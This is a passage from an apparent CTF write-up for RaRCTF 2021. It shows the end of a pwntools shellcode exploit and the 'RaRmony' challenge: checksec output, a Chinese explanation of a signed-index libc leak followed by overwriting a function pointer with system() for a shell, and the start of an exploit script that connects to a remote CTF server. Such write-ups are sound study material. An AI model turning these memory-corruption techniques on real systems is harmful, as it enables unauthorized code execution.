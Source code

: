 ```python
r.sendline(pl)

pl2 = b'\x90' * 0x30
pl2 += sc2
input()
r.sendline(pl2)
input()
r.send('/pwn\x00')
r.interactive()
```



### RaRmony

```
// file
./harmony: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c6e84d3e5b89f8c8136e1c4efb655ee8f6a47281, for GNU/Linux 4.4.0, not stripped

// checksec
[*] '/home/u1f383/rarctf_2021/RaRmony/rarmony/harmony'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



這題還滿有趣的，由於 index 為 signed，因此可以讓 `fscanf()` 從 stdout 讀取資料並且印出，而 `fscanf()` 的 format 為 `%d:%[^\n]s`，並且會把 `%d` 讀到的 integer 當作 index 給 `user`，再用 `printf()` 印出，藉此可以 leak libc，但是因為 stdout 不會 return EOF，while loop 會一直執行，這時候輸入 `1.0` float 讓 `%d:%[^\n]s` 拿不到 signed integer 以及 string 即可跳出迴圈。有了 libc 就能透過修改 function pointer 成 `system()`，並且透過程式提供的 feature get shell，exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

"""
0. Read Channel    
1. View User Info  
2. Change role name
3. Change username 
"""

current_user = 0x404378
roles = 0x404360
channels = 0x404240
puts_plt = 0x401060

info(f"""
current_user: {hex(current_user)}
roles: {hex(roles)}
channels: {hex(channels)}
""")

r = remote('193.57.159.27', 61229)
# r = process('./harmony')
# gdb.attach(r, """
```